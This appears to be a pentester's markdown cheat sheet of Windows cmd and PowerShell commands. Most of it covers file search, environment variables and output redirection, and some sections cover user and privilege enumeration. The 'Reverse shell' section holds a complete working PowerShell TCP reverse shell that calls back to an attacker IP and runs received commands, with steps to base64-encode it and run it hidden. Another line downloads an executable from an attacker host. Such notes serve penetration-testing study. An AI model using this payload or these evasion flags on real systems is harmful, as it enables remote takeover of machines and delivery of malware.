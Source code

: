 # Regular Cmd and Powershell commands

## Cmd

### Environment variables

```
cd %userprofile%
```

### Find and search files

Find:
```
dir /s *.txt
forfiles /P C:\Windows /S /M *.txt /c "cmd /c echo @PATH"
```
and search:
```
find "some string" somefile.txt
find """string in double quotes""" anotherfile.txt
find /i "case insensitive" file.txt
find /?
```
Count lines:
```
find /c /v "" file.txt
```

RegExp: 
- https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/findstr
- https://www.windows-commandline.com/findstr-command-examples-regular/
```
findstr pattern filename.txt
```

### Enumeration

```
whoami
whoami /priv
whoami /group
systeminfo
ipconfig /all
route print
netstat -ano
net user
net localgroup
net localgroup administrators 
```

---

## Powershell

About `powershell.exe`: https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_powershell_exe?view=powershell-5.1

### Options

Regular options:
- NoLogo
- NoProfile: no custom configuration
- NonInteractive
- ExecutionPolicy: bypass
- EncodedCommand: same as `-enc`
- WindowStyle: `-w hidden`

### Environment variables

```
cd "env:userprofile\desktop"
```

### Write output to a file

Source: https://stackoverflow.com/questions/1215260/how-to-redirect-the-output-of-a-powershell-to-a-file-during-its-execution
```
PS> .\myscript.ps1 | Out-File c:\myoutput.txt
PS> Write "Stuff to write" | Out-File Outputfile.txt -Append
```

### Find files

```
Get-ChildItem -Recurse -Include *.txt -File -ErrorAction SilentlyContinue -Path 'C:\path\to\dir' 
```

### Search files

```
Get-Content somefile.txt | Select-String -Pattern 'string to search' -Context $nblinesbefore,$nblinedafter
```

### Change the execution policy

```
Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser
```

### Reverse shell

In a Powershell prompt, build the base64 string:
```
$Text = '$client = New-Object System.Net.Sockets.TCPClient("$AttackerIp",$AttackerPort);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)

$EncodedText =[Convert]::ToBase64String($Bytes)
```
Usage: `powershell -enc base64_encoded_long_string`

Build the base64 string in Linux:
- https://github.com/darkoperator/powershell_scripts/blob/master/ps_encoder.py
- https://github.com/ThomasBucaioni/pentools/blob/main/microsoft/powershell_powercat_encoding.py

References:
- https://gist.githubusercontent.com/egre55/c058744a4240af6515eb32b2d33fbed3/raw/3ad91872713d60888dca95850c3f6e706231cb40/powershell_reverse_shell.ps1
- https://github.com/darkoperator/powershell_scripts/tree/master

### Download a file

```
iwr -uri http://$IpAttacker/somefile.exe -outfile somefiledownloaded.exe
```

### Enumeration

```
Get-LocalUser
Get-LocalGroup
Get-LocalGroupMember somelocalgroup
Get-LocalGroupMember Administrators
Get-ItemProperty "HKLM:\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*"
Get-ItemProperty "HKLM:\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | Get-Member
Get-ItemProperty "HKLM:\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | Select DisplayName
Get-ItemProperty "HKLM:\Software\Microsoft\Windows\CurrentVersion\Uninstall\*" | Select DisplayName
Get-Process
```
